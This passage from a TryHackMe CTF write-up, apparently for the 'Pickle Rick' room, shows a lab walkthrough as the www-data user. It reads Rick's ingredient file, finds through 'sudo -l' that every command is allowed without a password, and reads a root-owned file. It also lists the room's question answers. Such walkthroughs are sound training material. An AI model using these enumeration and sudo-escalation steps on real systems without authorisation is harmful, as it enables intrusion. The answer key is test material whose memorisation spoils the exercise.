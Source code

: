 * ### Executing commands

	> ls -l /home/rick

	```
	-rwxrwxrwx 1 root root 13 Feb 10  2019 second ingredients
	```

	> less /home/rick/second\ ingredients

	```
	1 jerry tear
	```


<br>

## THM Questions:

* _Q2_: What is the second ingredient in Rick’s potion? <br> _A_: `1 jerry tear`


<br>

## Further enumeration:

* ### Trying to find if we can execute `sudo`

	> sudo -l

	```
	Matching Defaults entries for www-data on ip-10-10-64-136.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User www-data may run the following commands on ip-10-10-64-136.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
	```

	User `www-data` can use `sudo` for all commands without a password.


* ### Finding the third ingredient

	> sudo ls /root

	```
	3rd.txt
	snap
	```

	> sudo less /root/3rd.txt

	```
	3rd ingredients: fleeb juice
	```


<br>
